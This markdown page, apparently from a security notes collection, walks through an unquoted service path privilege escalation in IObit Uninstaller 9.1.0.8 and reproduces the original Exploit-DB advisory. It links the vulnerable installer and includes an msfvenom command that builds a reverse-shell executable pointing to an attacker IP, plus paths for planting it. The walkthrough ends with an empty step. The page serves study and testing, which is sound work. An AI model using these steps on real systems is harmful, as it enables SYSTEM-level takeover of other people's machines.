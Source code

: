 ```yaml
---
description: >-
  https://awesome.hackpuntes.com/exploit-db/iobit-uninstaller-9.1.0.8-iobitunsvr-unquoted-service-path
---
```


# IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path

{% embed url="https://www.exploit-db.com/exploits/47538" %}

### FILES

{% file src="../.gitbook/assets/iobituninstaller-v9.1.0.8.zip" caption="Vulnerable software" %}

### POC

YOUTUBE

1. Install vulnerable software on victim machine
2. **`Windows + R`** and type **`cmd`**
3. Execute command **`sc qc IObitUnSvr`**
4. ```text
   C:\>sc qc IObitUnSvr
   [SC] QueryServiceConfig SUCCESS
   SERVICE_NAME: IObitUnSvr
           TYPE               : 10  WIN32_OWN_PROCESS
           START_TYPE         : 2   AUTO_START
           ERROR_CONTROL      : 0   IGNORE
           BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
           LOAD_ORDER_GROUP   :
           TAG                : 0
           DISPLAY_NAME       : IObit Uninstaller Service
           DEPENDENCIES       :
           SERVICE_START_NAME : LocalSystem
   ```
5. Make a malicious exe`msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ATTACKER] LPORT=[PORT-ATTACKER] -f exe -o IObit.exe`
6. Copy a malicious exe in some path like the following
   1. **C:\Program.exe**
   2. **C:\Program Files.exe**
   3. **C:\Program Files \(x86\)\IObit\IObit.exe**
7. Lieboot system
8. **`Windows + R`** and type cmd
9. Execute command **`sc qc IObitUnSvr`**
10. 
### ORIGINAL

```text
# Title: IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path
# Author: Sainadh Jamalpur
# Date: 2019-10-22
# Vendor Homepage: https://www.iobit.com
# Software Link: https://www.iobit.com/en/advanceduninstaller.php
# Version : 9.1.0.8
# Tested on: Windows 10 64bit(EN)
# CVE : N/A

# 1. Description:
# Unquoted service paths in IObit Uninstaller v9.1.0.8 have an unquoted service path.

# PoC
===========
C:\>sc qc IObitUnSvr
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: IObitUnSvr
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : IObit Uninstaller Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\>

#Exploit:
============
A successful attempt would require the local user to be able to insert their code in the system root path undetected by the OS or other security applications where it could potentially be executed during application startup or reboot. If successful, the local user's code would execute with the elevated privileges of the application.

# Disclaimer
=============
The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise.
The author is not responsible for any misuse of the information contained herein and accepts no responsibility for any damage caused by the use or misuse of this information.
The author prohibits any malicious use of security related information or exploits by the author or elsewhere.
```

